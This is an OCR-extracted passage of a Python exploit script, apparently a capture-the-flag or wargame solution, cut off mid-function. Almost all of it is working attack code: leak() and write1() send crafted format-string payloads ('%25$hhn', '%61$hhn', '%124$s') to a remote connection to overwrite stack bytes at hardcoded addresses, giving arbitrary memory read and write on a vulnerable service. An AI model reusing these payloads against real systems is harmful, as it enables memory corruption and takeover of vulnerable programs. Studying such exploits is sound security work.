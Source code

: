 ```python
        value += read1(address+i) << (8*i)
        
    return value


def leak(address):
    conn.send("%64c%25$hhn")           # 0xbffff940
    conn.recv(200)
    conn.send("%"+str(256)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
    conn.recv(300)
    
    if (address & 0xff):
        conn.send("%64c%25$hhn")           # 0xbffff940
        conn.recv(200)
        conn.send("%"+str(address & 0xff)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
        conn.recv(300)

    conn.send("%65c%25$hhn")           # next byte, 0xbffff941
    conn.recv(200)
    conn.send("%"+str((address >> 8) & 0xff)+"c%61$hhn")           # set byte at 0xbf..41 to '20'
    conn.recv(300)

    conn.send("%66c%25$hhn")           # next byte, 0xbffff942
    conn.recv(200)
    conn.send("%"+str((address >> 16) & 0xff)+"c%61$hhn")           # set byte at 0xbf..42 to '37'
    conn.recv(300)

    conn.send("%67c%25$hhn")           # final byte, 0xbffff943
    conn.recv(200)
    conn.send("%"+str((address >> 24) & 0xff)+"c%61$hhn")           # set byte at 0xbf..43 to '13'
    conn.recv(300)

    conn.send("%124$s")
    data = conn.recv(200)
    return data[3:]
        
def write1(what, where):
#       argument 25 contains 0xbffff844,
#                               which points to 0xbffff958
#       so we can use 25 to modify position 61 to write something on the stack!
#       addr = 0xbffff758 # = argument 2
    conn.send("%64c%25$hhn")           # 0xbffff940
    conn.recv(200)
    conn.send("%"+str(where & 0xff)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
    conn.recv(300)

    conn.send("%65c%25$hhn")           # next byte, 0xbffff941
    conn.recv(200)
    conn.send("%"+str((where >> 8) & 0xff)+"c%61$hhn")           # set byte at 0xbf..41 to '20'
    conn.recv(300)

    conn.send("%66c%25$hhn")           # next byte, 0xbffff942
    conn.recv(200)
    conn.send("%"+str((where >> 16) & 0xff)+"c%61$hhn")           # set byte at 0xbf..42 to '37'
    conn.recv(300)

    conn.send("%67c%25$hhn")           # final byte, 0xbffff943
    conn.recv(200)
    conn.send("%"+str((where) >> 24 & 0xff)+"c%61$hhn")           # set byte at 0xbf..43 to '13'
    conn.recv(300)

    # write byte
    if ord(what) < 100:
```
